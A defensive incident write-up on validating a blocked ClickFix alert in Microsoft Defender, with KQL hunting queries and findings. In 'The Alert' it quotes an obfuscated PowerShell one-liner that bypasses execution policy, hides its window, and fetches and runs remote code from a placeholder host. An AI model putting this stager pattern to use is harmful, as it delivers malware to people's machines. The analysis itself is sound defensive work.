

# Case Study: Validating a "Blocked" ClickFix Alert Beyond the Verdict Label

**Category:** Endpoint Detection & Response, Threat Hunting
**Tools:** Microsoft Defender XDR, Advanced Hunting (KQL), OSINT/reputation enrichment
**ATT&CK Mapping:**
- T1204.004, User Execution: Malicious Copy and Paste (Tactic: Execution)
- T1059.001, Command and Scripting Interpreter: PowerShell (Tactic: Execution)
- T1027, Obfuscated Files or Information (Tactic: Defense Evasion)
- T1564.003, Hide Artifacts: Hidden Window (Tactic: Defense Evasion)
- T1105, Ingress Tool Transfer, attempted (Tactic: Command and Control)

## Summary

Microsoft Defender generated an alert reporting that an active ClickFix malware command line had been "prevented from executing," with an automated remediation action logged as `Remove / Success`. Rather than closing the alert on that label alone, I independently verified using Advanced Hunting across network, process, file, and registry telemetry, plus external threat intelligence enrichment, that the block occurred before any network connection to the payload host, not after a download had already completed. This distinction matters. A block on the final execution step of a two-stage command does not by itself prove the first stage, the network fetch, never ran.



## What ClickFix Is

ClickFix is a social engineering delivery technique that has become one of the more common initial access vectors over the past two years. It works by tricking the user into carrying out the actual "infection" step themselves, so there's no exploit to detect, no malicious attachment to scan, and no macro to block.

The typical flow looks like this:

1. **The lure.** The victim lands on a page designed to look like a routine friction point they've seen before: a fake "verify you're human" CAPTCHA, a fake Cloudflare Turnstile check, a fake browser or driver update notice, or a fake error screen for something ordinary like a video call ("Zoom couldn't connect a component, click here to fix"). These pages are often served through compromised legitimate websites, malicious ad placements, or fake search results for common software.
2. **The clipboard hijack.** JavaScript on the page silently writes a command to the user's clipboard, usually via `navigator.clipboard.writeText()` or a hidden `document.execCommand('copy')` call. The user never sees this happen.
3. **The instruction.** The page then walks the user through a short set of steps that feel like normal troubleshooting: press **Windows key + R**, paste (**Ctrl+V**), press **Enter**. Some variants use a terminal or PowerShell shortcut instead of the Run dialog.
4. **The execution.** Because the user performs the paste and the Enter key press themselves, the command runs in a normal user context with no exploit involved. This is what makes ClickFix effective against layers of security tooling that are built to catch attachments, links, or exploit attempts. Here, the payload delivery mechanism is the user's own hands.

The commands themselves are frequently short PowerShell one-liners, often obfuscated just enough to slip past casual string-matching, that reach out to attacker infrastructure for a second stage. That second stage varies by campaign, but ClickFix has been observed delivering infostealers (Lumma Stealer, Vidar), loaders (DarkGate), and remote access tools (NetSupport RAT), among others.

What makes ClickFix worth specific attention as a defender:

- **It bypasses email and web content filtering almost entirely**, since the "malicious" content is a set of plain-language instructions and a clipboard write, not a file or a link a gateway can inspect.
- **It relies on trust in routine UI patterns.** CAPTCHAs and "click to fix" prompts are things users are conditioned to comply with quickly, without reading closely.
- **Detection has to happen at the endpoint**, once the command actually executes. This makes EDR telemetry, not perimeter controls, the primary line of defense, which is part of why validating exactly where and how the block occurred (as done in this investigation) matters so much for confidence in the outcome.

## The Alert

```
powershell.exe -ep bypass -w hidden -c
$a=&(gcm Invoke-RestMethod) 'http://<payload-host>/<path>';&(gcm *voke-Ex*)($a)
```

## Technique Breakdown

This one-liner is a fileless, two-stage loader:

- **`-ep bypass -w hidden`**: bypasses the local execution policy and hides the console window, consistent with an unattended stager the victim isn't meant to notice.
- **`&(gcm Invoke-RestMethod)`**: resolves `Invoke-RestMethod` indirectly via `Get-Command` rather than calling it by name, a lightweight evasion against naive string or signature matching.
- **`&(gcm *voke-Ex*)`**: resolves `Invoke-Expression` through a wildcard match against `Get-Command`, then executes whatever was retrieved into `$a`.
- Net effect: fetch remote content and execute it in memory, with no intended disk artifact.

The `explorer.exe` parent process is consistent with the delivery pattern described above: the command was pasted into the Run dialog rather than launched by a script, macro, or browser child process.

## Investigation Methodology

The core question driving this investigation: did the "prevented from executing" label mean the payload was never retrieved, or only that the final `Invoke-Expression` call was blocked after a successful download? These are two different outcomes, and the alert label alone doesn't distinguish them.

**1. Network connection verification**

Queried `DeviceNetworkEvents` for the affected device, filtering first on the destination domain, then pivoting to the initiating process (`powershell.exe`) once the domain based query returned nothing. Filtering on the actor process is more resilient to encoding or casing mismatches than filtering on a URL string.

```kql
DeviceNetworkEvents
| where DeviceId == "<DeviceId>"
| where Timestamp between (datetime(<start>) .. datetime(<end>))
| where InitiatingProcessFileName =~ "powershell.exe"
| project Timestamp, ActionType, RemoteUrl, RemoteIP, RemotePort, InitiatingProcessCommandLine
```

Result: zero network connections from `powershell.exe` in the surrounding window. The payload host was never reached.

**2. Anchoring on ground truth identifiers**

An early obstacle was empty results across multiple queries, traced to imprecise device name and timestamp values copied from the portal UI (timezone display differences and casing). Rather than continuing to guess, I pulled the authoritative `DeviceId` and UTC timestamp directly from the alert's own evidence records:

```kql
AlertInfo
| where Title has "ClickFix"
| where Timestamp > ago(3d)
| project AlertId, Title, Timestamp, ServiceSource, DetectionSource
| join kind=inner (AlertEvidence) on AlertId
| project Timestamp, DeviceId, DeviceName, EntityType, EvidenceRole, FileName, ProcessCommandLine, RemoteUrl, RemoteIP, AccountName
```

This resolved the earlier false empty results and became the anchor for every subsequent query.

**3. Detection mechanism confirmation**

To determine what actually stopped the chain, behavioral AMSI scanning versus a known signature, I queried `DeviceEvents` for the relevant action types:

```kql
DeviceEvents
| where DeviceId == "<DeviceId>"
| where Timestamp between (datetime(<start>) .. datetime(<end>))
| where ActionType has_any ("Amsi", "AntivirusDetection", "PowerShell", "ExploitGuard")
| project Timestamp, ActionType, FileName, ProcessCommandLine, AdditionalFields
```

Result: `AntivirusDetection` fired with a timestamp matching the alert exactly. This was a signature-based block, meaning this specific command pattern was already fingerprinted rather than caught purely by behavioral heuristics.

**4. File system impact**

```kql
DeviceFileEvents
| where DeviceId == "<DeviceId>"
| where Timestamp between (datetime(<start>) .. datetime(<end>))
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessFileName
```

Result: no files written. The "Remove" remediation action corresponded to termination of the in-memory process, not deletion of a dropped payload, which is expected for a fileless attempt.

**5. Threat intelligence enrichment**

Checked the reputation and registration details of the payload domain. It returned a suspicious verdict with no established reputation history. WHOIS showed the domain was registered 25 days before the incident through a registrar and DNS setup (Aliyun registration, Cloudflare fronted nameservers) consistent with short-lived, purpose-built malicious infrastructure.

**6. Fleet-wide scope check**

```kql
DeviceProcessEvents
| where Timestamp > ago(7d)
| where ProcessCommandLine has_all ("gcm", "-w hidden", "-ep bypass")
| where ProcessCommandLine has "voke-Ex"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

Result: no matches on any other device. This was an isolated event, not part of a broader wave against the organization.

## Findings

| Stage | Finding | Assessment |
|---|---|---|
| Delivery | `explorer.exe` to `powershell.exe` | Consistent with ClickFix Win+R paste pattern |
| Payload retrieval | Zero network connections from `powershell.exe` | Blocked before `Invoke-RestMethod` executed |
| Detection | `AntivirusDetection`, signature-based | Timestamp matches alert exactly |
| Disk impact | No files written | Fileless attempt, no artifact left behind |
| Persistence | No Run key or scheduled task changes | None established |
| Scope | No matching activity fleet-wide (7-day lookback) | Isolated incident |
| Infrastructure | Payload domain registered 25 days prior, Cloudflare fronted | Assessed as malicious staging domain |

## Outcome

Confirmed true positive, fully blocked before execution, with no indication of compromise. This was corroborated across four independent telemetry sources plus external enrichment rather than relying on the automated alert label alone.

## Key Takeaway

Automated remediation labels describe what action was taken, not necessarily what already happened before that action. A command chain that fetches a payload and then executes it is two distinct events. A block on the second doesn't guarantee the first never completed. Independently verifying network telemetry, instead of just trusting "prevented," is what actually closes the gap between "the alert says blocked" and "we can prove nothing was retrieved."
